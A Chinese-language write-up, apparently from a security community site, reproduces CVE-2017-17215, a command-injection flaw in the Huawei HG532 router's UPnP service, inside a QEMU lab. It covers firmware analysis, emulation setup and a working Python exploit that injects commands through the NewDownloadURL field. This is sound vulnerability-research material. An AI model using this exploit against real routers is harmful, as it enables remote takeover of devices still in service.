










# CVE-2017-17215 华为HG532路由器RCE漏洞复现-先知社区

> **来源**: https://xz.aliyun.com/news/18201  
> **文章ID**: 18201

---

### **漏洞描述**

`CVE-2017-17215`是`CheckPoint`团队披露的远程命令执行（`RCE`）漏洞，存在于华为`HG532`路由器中。  
该设备支持名为`DeviceUpgrade`的一种服务类型，可通过向`/ctrlt/DeviceUpgrade_1`的地址提交请求，来执行固件的升级操作。  
可通过向`37215`端口发送数据包，启用`UPnP`协议服务，并利用该漏洞，在`NewStatusURL`或`NewDownloadURL`标签中注入任意命令以执行。

漏洞披露:<https://research.checkpoint.com/2017/good-zero-day-skiddie/>

附件下载:  
通过网盘分享的文件：HG532eV100R001C02B015\_upgrade\_main.bin  
链接: <https://pan.baidu.com/s/1r9fkxyNBKFhvu0uDRKzElg?pwd=xidp> 提取码: xidp

### **漏洞分析**

根据官方的漏洞报告，我们知道漏洞存在于`/bin/upnp`二进制文件  
按照官方报告中提到的 `NewStatusURL` 或 `NewDownloadURL` 两个字符串进行定位，找到漏洞点位于 `sub_407B20` 这个函数中  


漏洞点存在于上图中的 `第18行`，这个 `snprintf函数` 会将我们发送的标签内容写入字符串，并且之后会使用 `system` 执行该字符串  
这就很明显会存在一个任意命令执行漏洞  
`snprintf函数` 会将我们发送的标签内容写入 `v6` 中，而下面的 `system函数` 会将 `v6` 中字符串的内容当做命令来执行，显然这是一个命令执行漏洞，我们可以在`NewStatusURL`或`NewDownloadURL`标签中注入任意命令以执行

### **基础的环境配置**

基础的IOT环境配置(`binwalk/sasquatch/qemu`等)可以参考这篇文章中的环境配置: [DIR-815 栈溢出漏洞(CNVD-2013-11625)复现-先知社区](https://xz.aliyun.com/news/18079)

### **使用qemu复现漏洞**

下载地址 : [Index of /~aurel32/qemu/mips](https://people.debian.org/~aurel32/qemu/mips/)  


需要准备 `vmlinux-2.6.32-5-4kc-malta` 内核以及 `debian_squeeze_mips_standard.qcow2` 镜像文件

`注意: 这里最好不要使用别的版本的内核，因为我们后面运行mic可执行程序对内核版本有要求，过高或过低都会导致mic文件启动失败从而导致无法复现`

使用下面 `start.sh脚本` 来启动 `qemu虚拟机`

```
#!/bin/bash
# start.sh
sudo qemu-system-mips \
    -M malta -kernel vmlinux-2.6.32-5-4kc-malta \
    -hda debian_squeeze_mips_standard.qcow2 \
    -append "root=/dev/sda1 console=tty0" \
    -net nic,macaddr=00:16:3e:00:00:01 \
    -net tap
```

使用 `chmod +x start.sh` 命令给脚本赋予权限， 最后使用 `./start.sh` 命令启动 `qemu虚拟机`  
`qemu虚拟机` 的初始账号和密码均为 `root`

进入虚拟机后使用 `ip addr` 命令来查看一下网卡，一般是 `eth1`  


下面我们使用 `nano /etc/network/interfaces` 这个命令修改 `interfaces` 文件中的内容为如下  
  
也就是将其中的 `eth0` 修改为 `eth1`  
然后退出之后执行 `ifup eth1` 执行结束之后我们就使用 `ip addr` 继续查看 `qemu虚拟机` 的 `ip地址`



然后我们就可以使用ssh来连接了

```
ssh -o HostKeyAlgorithms=ssh-rsa root@192.168.52.141
```

这里有可能会报错，如果我们之前使用过别的 `qemu虚拟机`，并且另外一个 `qemu虚拟机` 仿真的时候也使用这个同样的虚拟ip地址  
那么就会导致同一个ip地址链接的时候本地保存的密钥对不上，会出现以下错误

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@ @ WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED! @ @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@ IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY! Someone could be eavesdropping on you right now (man-in-the-middle attack)! It is also possible that a host key has just been changed. The fingerprint for the RSA key sent by the remote host is SHA256:RnbVx6INRUINQfGBLb+TCS67dvjyDDo+XXf0MUxPK/c. Please contact your system administrator. Add correct host key in /home/xidp/.ssh/known_hosts to get rid of this message. Offending RSA key in /home/xidp/.ssh/known_hosts:1 remove with: ssh-keygen -f '/home/xidp/.ssh/known_hosts' -R '192.168.52.141' Host key for 192.168.52.141 has changed and you have requested strict checking. Host key verification failed.
```

我们可以执行下面命令删除本地旧的密钥记录然后重新进行连接获取密钥

```
# 删除旧密钥记录（自动操作） 
ssh-keygen -f '/home/xidp/.ssh/known_hosts' -R '192.168.52.141' 

# 重新连接（会提示接受新密钥） 
ssh -o HostKeyAlgorithms=ssh-rsa root@192.168.52.141
```

然后使用 `scp命令` 将 `Ubuntu物理机` 中的 `squashfs-root` 文件传入到 `qemu虚拟机` 中

```
scp -o HostKeyAlgorithms=ssh-rsa -r ./squashfs-root root@192.168.xx.xx:/root/
```

按照官方报告中所说我们需要打开 `37215`端口，并对该端口下的 `/ctrlt/DeviceUpgrade_1` 地址发送数据包，然后我们就可以利用设备内置的 `UPnP` 服务

下面我们使用 `grep -r '37215'` 命令，我们可以发现文件中的 `/bin/mic` 这个文件中含有这个端口，所以我们可以通过这个文件来打开 `37215` 端口  


我们返回到 `qemu虚拟机` 中，然后进入其中的 `squashfs-root` 文件夹，使用命令 `chroot . sh` 然后进入 `/bin` 文件夹，随后使用 `./mic` 来运行程序开启端口

然后我们返回 `Ubuntu物理机` 使用 `nc -vv 192.168.52.141 37215` 来查看是否能够成功连接上这个端口  


下面编写exp:

```
import requests

Authorization = "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
headers = {"Authorization": Authorization}

print("-----CVE-2017-17215 HUAWEI HG532 RCE-----
")
cmd = input("command > ")

data = f'''
<?xml version="1.0" ?>
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
    <s:Body>
        <u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
            <NewStatusURL>XiDP</NewStatusURL>
            <NewDownloadURL>;{cmd};</NewDownloadURL>
        </u:Upgrade>
    </s:Body>
</s:Envelope>
'''

r = requests.post('http://192.168.52.141:37215/ctrlt/DeviceUpgrade_1', headers = headers, data = data)
print("
status_code: " + str(r.status_code))
print("
" + r.text)
```

下面这是运行 `./mic` 的窗口(这个图中我已经执行了一次exp，并且执行了 `ls` 命令)  


下面这是执行exp的情况  
  
这是执行了上面这次exp之后 `./mic` 窗口的情况出现了新的内容，虽然我们没有办法通过exp窗口查看，但是我们可以确定我们的命令是成功执行的  


最后我们成功复现了 `CVE-2017-17215` 漏洞

​

参考:  
[一些经典IoT漏洞的分析与复现（新手向） - IOTsec-Zone](https://www.iotsec-zone.com/article/384#d-link-%E7%99%BB%E5%BD%95%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E)
